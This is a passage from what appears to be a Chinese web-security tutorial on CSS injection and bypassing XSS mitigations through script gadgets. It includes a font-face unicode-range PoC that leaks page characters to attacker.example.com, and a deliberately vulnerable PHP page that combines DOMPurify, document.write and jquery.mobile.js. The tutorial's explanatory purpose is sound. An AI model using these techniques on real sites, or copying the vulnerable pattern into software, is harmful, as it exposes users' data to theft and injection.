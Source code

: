 上图是利用 CSS selectors 完成攻击的一个示例  

**Abusing Unicode Range  **

当可以插入 CSS 的时候，可以使用 font-face 配合 unicode-range 获取目标网页对应字符集。 PoC 如下  

```
<style>
@font-face{
font-family:poc;
src: url(http://attacker.example.com/?A); /* fetched */
unicode-range:U+0041;
}
@font-face{
font-family:poc;
src: url(http://attacker.example.com/?B); /* fetched too */
unicode-range:U+0042;
}
@font-face{
font-family:poc;
src: url(http://attacker.example.com/?C); /* not fetched */
unicode-range:U+0043;
}
#sensitive-information{
font-family:poc;
}
</style>
<p id="sensitive-information">AB</p>
```

当字符较多时，则可以结合 ::first-line 等 CSS 属性缩小范围，以获取更精确的内容  

**Bypass Via Script Gadgets  **

一些网站会使用白名单或者一些基于 DOM 的防御方式，对这些方式，有一种被称为 Code Reuse 的攻
击方式可以绕过。该方式和二进制攻防中的 Gadget 相似，使用目标中的合法代码来达到绕过防御措施的目的。在论文 Code-Reuse Attacks for the Web: Breaking Cross-Site Scripting Mitigations via
Script Gadgets 中有该方法的具体描述。
portswigger 的 一 篇 博 文 也 表 达 了 类 似 的 想 法 https://portswigger.net/blog/
abusing-javascript-frameworks-to-bypass-xss-mitigations。
下面有一个简单的例子，这个例子使用了 DOMPurify 来加固，但是因为引入了 jquery.mobile.js 导致可
以被攻击。  

**例子**

```
// index.php
<?php
$msg = $_GET['message'];
$msg = str_replace("\n", "", $msg);
$msg = base64_encode($msg);
?>
<!DOCTYPE html>
<html lang="en">
<head>
<meta charset="UTF-8">
<title>Preview</title>
<script type="text/javascript" src="purify.js"></script>
<script type="text/javascript" src="jquery.js"></script>
<script type="text/javascript" src="jquery.mobile.js"></script>
</head>
<body>
<script type="text/javascript">
var d= atob('<?php echo $msg; ?>');
var cleanvar = DOMPurify.sanitize(d);
document.write(cleanvar);
</script>
</body>
```